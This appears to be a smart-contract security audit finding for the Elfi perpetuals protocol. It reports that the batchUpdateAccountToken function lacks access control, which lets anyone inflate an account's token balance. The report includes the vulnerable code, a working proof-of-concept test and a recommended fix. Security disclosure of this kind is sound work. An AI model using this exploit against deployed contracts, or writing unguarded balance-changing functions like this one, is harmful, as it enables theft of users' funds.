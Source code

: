 Overt Fiery Starfish

High

# Lack of access control for function batchUpdateAccountToken

## Summary
function batchUpdateAccountToken() can update traders' cross-margin account directly and does not need to deposit/redeem any funds.

## Vulnerability Detail
AccountFacet::batchUpdateAccountToken() can update traders' cross-margin account directly. Hackers can use this function to increase their funds directly. 

```javascript
    function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
        AddressUtils.validEmpty(params.account);
        AssetsProcess.updateAccountToken(params);
    }
```
```javascript
    function updateAccountToken(UpdateAccountTokenParams calldata params) external {
        Account.Props storage accountProps = Account.load(params.account);
        accountProps.checkExists();
        for (uint256 i; i < params.tokens.length; i++) {
            if (params.changedTokenAmounts[i] == 0) {
                continue;
            }
            if (params.changedTokenAmounts[i] > 0) {
                accountProps.addToken(params.tokens[i], params.changedTokenAmounts[i].toUint256());
                accountProps.repayLiability(params.tokens[i]);
            } else {
                accountProps.subToken(params.tokens[i], (-params.changedTokenAmounts[i]).toUint256());
            }
        }
    }
```
### Poc
Add below test case in `increaseMarketOrder.test.ts`
```javascript
  it.only('Case0: Test batch update', async function () {
    const orderMargin = precision.token(1, 17) // 0.1BTC
    wbtc.connect(user0).approve(diamondAddr, orderMargin)
    let tx = await accountFacet.connect(user0).deposit(wbtc, 1)
    await tx.wait()
    await accountFacet.batchUpdateAccountToken({
        account: user0,
        tokens: [wbtcAddr],
        changedTokenAmounts: [12345678]
    })
    const executionFee = precision.token(2, 15)
    const accountInfo = await accountFacet.getAccountInfo(user0.address)
    console.log(account.getAccountTokenAmount(accountInfo, wbtcAddr))
  })

```
The test result is as below
```javascript
12345679n
    ✔ Case0: Test batch update (120ms)
```
This means that after we create one account via deposit 1 wei,  we can update the account's balance as what we want.

## Impact
Hackers can change any account's balance if this account exists.

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71

## Tool used
Manual Review

## Recommendation
This function should be disallowed. Or only admin can use this in some special cases.
